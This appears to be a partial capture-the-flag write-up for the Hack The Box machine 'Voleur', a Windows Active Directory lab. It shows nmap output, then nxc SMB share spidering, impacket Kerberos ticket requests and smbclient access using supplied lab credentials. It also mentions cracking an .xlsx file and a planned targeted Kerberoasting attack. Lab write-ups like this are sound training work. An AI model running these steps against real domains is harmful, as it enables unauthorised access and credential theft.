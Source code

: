 <img width="1400" height="1138" alt="Voleur" src="https://github.com/user-attachments/assets/980f8849-8b41-492e-b42f-b181f3befeba" />


host : voleur.htb dc.voleur.htb

#Recon


        PORT      STATE SERVICE       REASON          VERSION
        53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
        88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-12 23:13:38Z)
        135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
        139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
        389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
        445/tcp   open  microsoft-ds? syn-ack ttl 127
        464/tcp   open  kpasswd5?     syn-ack ttl 127
        593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
        636/tcp   open  tcpwrapped    syn-ack ttl 127
        2222/tcp  open  ssh           syn-ack ttl 127 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)


#exploitation-chain


All first tries on these ports and the given credentials won't work so we going to  analyze  using other method
	  
       nxc smb dc.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -M spider_plus -k


#Note: the right domain voleur.htb doesn't responde to any of our queries that's why we gonna use the dc now with spider_plus option

if you want more details about the tool itself , check out the following link : 
	  https://linuxcommandlibrary.com/man/nxc

<img width="1477" height="697" alt="1" src="https://github.com/user-attachments/assets/a29e5b59-2718-4749-8104-99f79c65cb36" />



From that view , we noticed , IT share is readable 



      impacket-getTGT voleur.htb/ryan.naylor:'HollowOct31Nyt' -dc-ip 10.10.11.76
      export KRB5CCNAME=ryan.naylor.ccache
      impacket-smbclient -k dc.voleur.htb
      
  
  
<img width="853" height="402" alt="3" src="https://github.com/user-attachments/assets/cd4e5bec-a3c5-48dd-b6e8-07853d5d955b" />

get the .xlsx file , crack it and get access to its content 


<img width="1920" height="1045" alt="4" src="https://github.com/user-attachments/assets/a14d2de2-ef9d-4185-b578-864cdae49d2b" />

#So we get svc_ldap ticket and perform a targetkerberoasting attack 
